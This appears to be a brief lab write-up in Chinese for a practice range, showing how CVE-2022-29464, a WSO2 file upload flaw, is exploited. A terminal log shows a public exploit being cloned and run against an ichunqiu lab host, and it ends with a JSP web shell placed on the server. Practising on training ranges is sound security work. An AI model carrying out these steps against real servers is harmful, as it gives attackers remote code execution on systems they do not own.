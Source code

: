 ![image-20230616151625171](%E9%9D%B6%E5%9C%BA.assets/image-20230616151625171.png)



## CVE-2022-29464 WSO2文件上传漏洞



```shell
┌──(kali㉿kali)-[~/Desktop/chunqiuyunjing]
└─$ git clone https://github.com/hakivvi/CVE-2022-29464/       
Cloning into 'CVE-2022-29464'...
remote: Enumerating objects: 38, done.
remote: Counting objects: 100% (38/38), done.
remote: Compressing objects: 100% (36/36), done.
remote: Total 38 (delta 9), reused 6 (delta 1), pack-reused 0
Receiving objects: 100% (38/38), 15.63 KiB | 43.00 KiB/s, done.
Resolving deltas: 100% (9/9), done.
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/chunqiuyunjing]
└─$ cd CVE-2022-29464 
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/chunqiuyunjing/CVE-2022-29464]
└─$ ls
exploit.py  README.md
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/chunqiuyunjing/CVE-2022-29464]
└─$ python exploit.py https://eci-2zee002a5sv1dtwxucav.cloudeci1.ichunqiu.com:9443/
Usage: python3 exploit.py https://host shell.jsp
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/chunqiuyunjing/CVE-2022-29464]
└─$ python exploit.py https://eci-2zee002a5sv1dtwxucav.cloudeci1.ichunqiu.com:9443/ shell.jsp
shell @ https://eci-2zee002a5sv1dtwxucav.cloudeci1.ichunqiu.com:9443//authenticationendpoint/shell.jsp
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/chunqiuyunjing/CVE-2022-29464]

```

![image-20230624161650774](%E9%9D%B6%E5%9C%BA.assets/image-20230624161650774.png)
